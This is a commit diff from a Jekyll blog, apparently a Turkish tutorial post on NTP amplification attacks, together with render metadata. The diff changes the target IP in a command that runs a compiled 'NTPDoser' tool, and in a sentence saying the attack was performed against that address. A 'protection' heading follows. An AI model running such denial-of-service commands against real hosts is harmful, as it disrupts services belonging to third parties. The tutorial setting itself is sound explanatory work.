

Before and after one commit to laccart/laccart, a Jekyll site: the page built from _posts/2020-03-25-NTP-Amplification-Attack-Nedir-ve-Nasıl-Yapılır.markdown, in a window 1280 px wide and 900 px high, scrolled down 3690 px. Shown: the part 178-469 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
Update 2020-03-25-NTP-Amplification-Attack-Nedir-ve-Nasıl-Yapılır.markdown

````diff
--- a/_posts/2020-03-25-NTP-Amplification-Attack-Nedir-ve-Nasıl-Yapılır.markdown
+++ b/_posts/2020-03-25-NTP-Amplification-Attack-Nedir-ve-Nasıl-Yapılır.markdown
@@ -78,9 +78,9 @@ root@Stormer:~/NTPDoser# gcc NTPDoser.cpp  -o NTPDoser  -lstdc++  -pthread
 ```
 Yukarıdaki komutunun çalıştırılması ile NTPDoser.cpp dosyası derlenerek NTPDoser çalıştırılabilir dosyası oluşturulur.
 ```linux
-root@Stormer:~/NTPDoser# ./NTPDoser 172.67.160.65 3 10
+root@Stormer:~/NTPDoser# ./NTPDoser 104.28.28.246 3 10
 ```
-Yukarıda, NTPDoser aracı ile NTP Amplification saldırısı yapılmıştır. 172.67.160.65 IP adresine yönelik NTP Amplification saldırısını 3 farklı thread’den 10 saniye içerisinde yapmaktadır.
+Yukarıda, NTPDoser aracı ile NTP Amplification saldırısı yapılmıştır. 104.28.28.246 IP adresine yönelik NTP Amplification saldırısını 3 farklı thread’den 10 saniye içerisinde yapmaktadır.
 
 ## NTP Amplification Saldırılarına Karşı Koruma
 
````
